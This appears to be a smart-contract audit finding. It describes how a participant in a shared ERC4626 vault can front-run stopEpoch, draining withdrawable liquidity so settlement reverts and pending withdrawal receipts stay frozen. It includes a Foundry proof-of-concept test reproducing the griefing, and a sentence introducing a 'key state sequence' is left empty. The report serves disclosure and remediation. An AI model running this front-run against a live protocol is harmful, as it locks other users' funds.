

### Title
Public ERC4626 liquidity withdrawal can transiently block epoch settlement and funded withdrawal payouts - ([File: contracts/strategies/idle/ProgrammableBorrower.sol](contracts/strategies/idle/ProgrammableBorrower.sol))

### Summary
`ProgrammableBorrower` records withdrawal liquidity as an accounting reservation, but leaves the underlying assets inside a shared ERC4626 vault until `stopEpoch` executes. Because coverage is measured with `convertToAssets` rather than immediately withdrawable vault liquidity, an unprivileged vault participant can front-run settlement by withdrawing enough of the vault's idle assets to make `vault.withdraw(shortfall)` fail. The resulting `StopEpochVaultLiquidityUnavailable` revert leaves the epoch running and keeps pending withdrawal receipts unfunded until liquidity returns.

### Finding Description
A user withdrawal request becomes a fixed pending receipt through `IdleCreditVault.requestWithdraw`, which increments global `pendingWithdraws`. [1](#0-0) [2](#0-1) 

When the next epoch starts, `ProgrammableBorrower.onStartEpoch` stores that obligation in `epochPendingWithdraws`, but redeposits all on-hand underlying into the external vault instead of reserving cash for those receipts. [3](#0-2) 

`availableToBorrow` only restricts draws by the configured borrower; it does not reserve or isolate the corresponding ERC4626 liquidity from other vault users. [4](#0-3) 

At epoch end, `IdleCDOEpochVariant._stopEpoch` asks `ProgrammableBorrower.onStopEpoch` to source `_amountToPullFromBorrower + _pendingWithdraws`, then immediately pulls that amount from the borrower. [5](#0-4) 

`onStopEpoch` treats the position as covered whenever `convertToAssets(vault.balanceOf(programmableBorrower))` exceeds the shortfall, even if the vault does not currently have that much withdrawable liquidity. [6](#0-5)  An external vault participant can therefore front-run `stopEpoch`, withdraw vault liquidity until less than `shortfall` remains, and cause `vault.withdraw(shortfall)` to revert. [7](#0-6) 

The hook revert is intentionally allowed to bubble through `_stopEpoch`, so the whole settlement transaction rolls back and `isEpochRunning`, `pendingWithdraws`, and borrower accounting remain unchanged. [8](#0-7)  The pending user cannot claim until a later epoch has funded the receipt because `_claimFundedWithdrawRequest` reverts while the request's epoch is still current. [9](#0-8) 

### Impact Explanation
This is a temporary freezing of user funds equal to the unfunded `_pendingWithdraws`, plus any non-minted interest included in `_amountToPullFromBorrower`. For example, if a user has a 500,000 USDC receipt and an external vault participant leaves at most 499,999 USDC withdrawable, `stopEpoch` cannot settle the epoch and the receipt remains locked even though the programmable borrower’s vault shares still value the position at or above 500,000 USDC.

The attacker can repeat the front-run whenever their vault withdrawal rights are large enough to leave less than the required shortfall. They can subsequently restore liquidity or simply hold the withdrawn assets, extending the freeze for as long as the shared vault remains below the required liquidity. This does not directly steal protocol funds, but it defeats timely settlement and delays receipt payouts.

### Likelihood Explanation
The attack requires an unprivileged participant with sufficient withdrawal rights in the same ERC4626 vault, or the ability to acquire such a position before the targeted epoch ends. No IdleCDO privileged role, borrower cooperation, oracle manipulation, default, or contract compromise is required.

Liquidity-dependent ERC4626 vaults can have less instantly withdrawable cash than their reported `convertToAssets` value because assets may be allocated to markets or used by other participants. Since `stopEpoch` is a predictable public transaction after `epochEndDate`, a motivated vault participant can observe it and front-run only when profitable or when griefing is worthwhile.

### Recommendation
Do not treat `convertToAssets` as proof of withdrawable liquidity for pending receipts. Prefer reserving actual underlying earlier in the lifecycle, such as withdrawing the pending-receipt amount to `ProgrammableBorrower` during `onStartEpoch`, or otherwise placing it in a dedicated non-shared reserve before it becomes due.

If keeping assets invested is required, periodically reconcile `pendingWithdraws` against `vault.maxWithdraw(address(this))` or an equivalent liquidity view and replenish a cash reserve before epoch end. The reserve should account for pending withdrawals separately from discretionary borrower liquidity so external vault users cannot consume the liquidity needed for already-created receipts.

### Proof of Concept
The following Foundry test extends `test/foundry/ProgrammableBorrowerCreditVault.t.sol`. The mock models a shared ERC4626 vault in which the attacker holds a large existing claim backed by managed assets, while newly deposited IdleCDO cash remains withdrawable.

```solidity
contract SharedLiquidityVault is ERC20 {
    IERC20Detailed public immutable assetToken;
    address public immutable lp;

    // Represents LP claims backed by managed/illiquid assets elsewhere.
    uint256 public managedAssets = 1_000_000e6;

    constructor(address _asset, address _lp) ERC20("Shared Vault", "SV") {
        assetToken = IERC20Detailed(_asset);
        lp = _lp;
        _mint(_lp, 1_000_000e18);
    }

    function asset() external view returns (address) {
        return address(assetToken);
    }

    function totalVaultAssets() public view returns (uint256) {
        return assetToken.balanceOf(address(this)) + managedAssets;
    }

    function convertToAssets(uint256 shares) public view returns (uint256) {
        uint256 supply = totalSupply();
        return supply == 0 ? shares : shares * totalVaultAssets() / supply;
    }

    function deposit(uint256 assets, address receiver) external returns (uint256 shares) {
        uint256 assetsBefore = totalVaultAssets();
        shares = assets * totalSupply() / assetsBefore;
        assetToken.transferFrom(msg.sender, address(this), assets);
        _mint(receiver, shares);
    }

    function withdraw(uint256 assets, address receiver, address owner)
        external
        returns (uint256 shares)
    {
        shares = assets * totalSupply() / totalVaultAssets();
        if (shares * totalVaultAssets() < assets * totalSupply()) shares++;
        _burn(owner, shares);
        assetToken.transfer(receiver, assets);
    }
}

function testExternalVaultLiquidityFrontRunTemporarilyBlocksStop() external {
    address attackerLp = makeAddr("external-erc4626-lp");
    SharedLiquidityVault sharedVault =
        new SharedLiquidityVault(USDC, attackerLp);

    vm.prank(owner);
    cdoEpoch.setIsInterestMinted(true);
    vm.prank(manager);
    programmableBorrower.setVault(address(sharedVault));

    uint256 amount = 10_000 * oneScale;
    idleCDO.depositAA(amount);

    uint256 requested =
        cdoEpoch.requestWithdraw(aaTranche.balanceOf(address(this)) / 2, address(aaTranche));
    assertGt(requested, 0);

    _startEpochAndCheckPrices(0);
    assertEq(strategy.pendingWithdraws(), requested);

    // IdleCDO's assets are shares-backed, but the external LP can remove
    // enough currently withdrawable cash before stopEpoch.
    uint256 covered = sharedVault.convertToAssets(
        sharedVault.balanceOf(address(programmableBorrower))
    );
    assertGe(covered, requested);

    uint256 cash = underlying.balanceOf(address(sharedVault));
    vm.prank(attackerLp);
    sharedVault.withdraw(cash - requested + 1, attackerLp, attackerLp);

    assertLt(underlying.balanceOf(address(sharedVault)), requested);

    vm.warp(cdoEpoch.epochEndDate() + 1);
    vm.prank(manager);
    vm.expectRevert(StopEpochVaultLiquidityUnavailable.selector);
    cdoEpoch.stopEpoch(0, 0);

    // Settlement and the pending receipt remain frozen while liquidity is absent.
    assertTrue(cdoEpoch.isEpochRunning());
    assertFalse(cdoEpoch.defaulted());
    assertEq(strategy.pendingWithdraws(), requested);

    vm.expectRevert(abi.encodeWithSelector(NotAllowed.selector));
    cdoEpoch.claimWithdrawRequest();

    // The attacker can later restore liquidity; settlement then succeeds.
    deal(USDC, attackerLp, requested, true);
    vm.startPrank(attackerLp);
    underlying.approve(address(sharedVault), requested);
    sharedVault.deposit(requested, attackerLp);
    vm.stopPrank();

    vm.prank(manager);
    cdoEpoch.stopEpoch(0, 0);

    assertFalse(cdoEpoch.isEpochRunning());
    assertEq(strategy.pendingWithdraws(), 0);

    uint256 beforeClaim = underlying.balanceOf(address(this));
    cdoEpoch.claimWithdrawRequest();
    assertEq(underlying.balanceOf(address(this)) - beforeClaim, requested);
}
```

The key state sequence is:



### Citations

**File:** contracts/IdleCDOEpochVariant.sol (L393-409)
```text
    (_pendingWithdraws, _lossAmount) = _strategy.previewLossAdjustedWithdrawFunds(_lossAmount);

    if (isProgrammableBorrower) {
      // Ask the programmable borrower to recall ERC4626 liquidity before IdleCDO pulls funds.
      // Hook reverts bubble so transient ERC4626 liquidity failures can be retried.
      if (!IProgrammableBorrower(_borrower()).onStopEpoch(_amountToPullFromBorrower + _pendingWithdraws, _isRequestingAllFunds)) {
        // Emit the exact cash liability requested from the borrower, including recalled principal
        // in close-pool mode and excluding interest fronted through minted accounting.
        _handleBorrowerDefault(_amountToPullFromBorrower + _pendingWithdraws);
        return;
      }
    }

    // accrue interest to idleCDO, this will increase tranche prices.
    // Send also tot withdraw requests amount to the IdleCreditVault contract
    try this.getFundsFromBorrower(_amountToPullFromBorrower + _pendingWithdraws) {
      // transfer in strategy and decrease pendingWithdraws
```

**File:** contracts/IdleCDOEpochVariant.sol (L786-790)
```text
    // The receipt is fixed now and leaves live NAV. Charge management fees upfront
    // for the time it waits outside live NAV: remaining buffer plus the next epoch.
    creditVault.requestWithdraw(_underlyings, msg.sender, principal);
    // burn tranche tokens and decrease NAV without interest for the next epoch as it was not yet counted in NAV
    _withdrawOps(_amount, principal, _tranche);
```

**File:** contracts/strategies/idle/IdleCreditVault.sol (L277-294)
```text
    if (!isClosed) {
      // Global amount that stopEpoch must source from borrower/strategy for all pending receipts.
      pendingWithdraws += _amount;
    }
    // save the epoch of the last withdraw request (buffer + epochDuration is 1 epoch)
    lastWithdrawRequest[_user] = currentEpoch;
    // APR=0 requests keep separate accounting and settle interest at stopEpoch.
    // `_amount` here is the post-management-fee principal bucket for that flow.
    if (unscaledApr == 0 && !isClosed) {
      _requestWithdrawApr0(_amount, _user);
    } else {
      // increase the withdraw requests for the user
      // we record both per-user (old, kept for compatibility) and per-epoch so
      // on finalization we can distinguish "default-epoch pending receipts"
      // from old funded receipts.
      withdrawsRequests[_user] += _amount;
      withdrawsRequestsByEpoch[_user][currentEpoch] += _amount;
    }
```

**File:** contracts/strategies/idle/IdleCreditVault.sol (L319-328)
```text
  function _claimFundedWithdrawRequest(address _user) internal returns (uint256 amount) {
    // User should wait at least an epoch before claiming the withdraw. Once the epoch is over user can withdraw 
    // at any time even if a new epoch started. 
    // So if epochNumber is the same as the last withdraw request then we revert. Epoch number is increased at stopEpoch
    // NOTE: If a user does not claim a withdraw request and instead requests another withdraw, he will have to wait
    // for another epoch to claim both requests.
    // NOTE 2: if borrower defaults, old withdraw requests can still be claimed
    if (IIdleCDOEpochVariant(idleCDO).epochEndDate() != 0 && (epochNumber <= lastWithdrawRequest[_user])) {
      revert NotAllowed();
    }
```

**File:** contracts/strategies/idle/ProgrammableBorrower.sol (L201-216)
```text
  function onStartEpoch(uint256 _pendingWithdraws) external nonReentrant {
    _checkOnlyIdleCDO();
    _accrueBorrowerInterest();
    // Reserve the amount IdleCDO expects to pull back at stopEpoch before the real borrower can draw again.
    epochPendingWithdraws = _pendingWithdraws;
    uint256 currentVaultAssets = _currentVaultAssets();
    uint256 bufferStartAssets = bufferStartVaultAssets;
    // Carry vault PnL generated while the pool was in the buffer into the new active epoch so it
    // is eventually realized in tranche prices at the next stopEpoch.
    bufferedVaultDelta = int256(currentVaultAssets) - int256(bufferStartAssets);
    bufferStartVaultAssets = 0;
    // Snapshot total assets before re-depositing idle cash so the epoch principal baseline uses the
    // exact pre-deposit amount instead of a post-deposit share-conversion round-down.
    uint256 startAssets = underlyingToken.balanceOf(address(this)) + currentVaultAssets;
    // Any idle balance left on the contract between epochs is parked immediately into the vault.
    _depositToVault(underlyingToken.balanceOf(address(this)), 0);
```

**File:** contracts/strategies/idle/ProgrammableBorrower.sol (L239-253)
```text
    uint256 onHand = underlyingToken.balanceOf(address(this));
    if (_amountRequired > onHand) {
      uint256 shortfall = _amountRequired - onHand;
      // If the vault shares do not economically cover the shortfall, let IdleCDO's later
      // transferFrom fail and use the existing default path. Only an otherwise-covered ERC4626
      // withdrawal failure should make stopEpoch retryable.
      if (shortfall > _currentVaultAssets()) return true;
      try vault.withdraw(shortfall, address(this), address(this)) returns (uint256 shares) {
        if (epochAccountingActive) {
          epochWithdrawnFromVault += shortfall;
        }
        emit WithdrawnFromVault(shortfall, shares, address(this));
      } catch {
        revert StopEpochVaultLiquidityUnavailable();
      }
```

**File:** contracts/strategies/idle/ProgrammableBorrower.sol (L349-354)
```text
  /// @notice current borrowable liquidity excluding reserved withdraw requests
  function availableToBorrow() public view returns (uint256) {
    uint256 totalAssets = underlyingToken.balanceOf(address(this)) + _currentVaultAssets();
    // Interest is minted (not pulled as cash), so only pending withdraw requests need reservation.
    uint256 reserved = epochPendingWithdraws;
    return totalAssets <= reserved ? 0 : totalAssets - reserved;
```
